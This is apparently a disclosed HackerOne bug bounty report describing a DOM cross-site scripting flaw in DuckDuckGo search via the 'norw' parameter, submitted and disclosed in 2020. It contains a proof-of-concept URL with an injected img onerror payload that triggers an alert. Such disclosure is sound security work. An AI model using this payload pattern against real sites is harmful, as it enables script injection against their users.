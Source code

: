 # DOM XSS on duckduckgo.com search

## Report Details
- **Report ID**: 868934
- **URL**: https://hackerone.com/reports/868934
- **State**: Closed
- **Severity**: high
- **Submitted**: 2020-05-08T11:43:41.859Z
- **Disclosed**: 2020-06-14T11:37:58.627Z

## Reporter
- **Username**: cujanovic
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: duckduckgo

## Vulnerability Information
Hello, 
The is a DOM XSS vulnerability on https://duckduckgo.com search through the ```norw``` parameter.

PoC URL:  ```https://duckduckgo.com/?q=a&norw="><img src=/ onerror=alert(document.domain)>```

Screenshot: {F820482}

## Impact

The attacker can execute JS code.

## Attachments
- Screen_Shot_2020-05-08_at_13.39.32.png
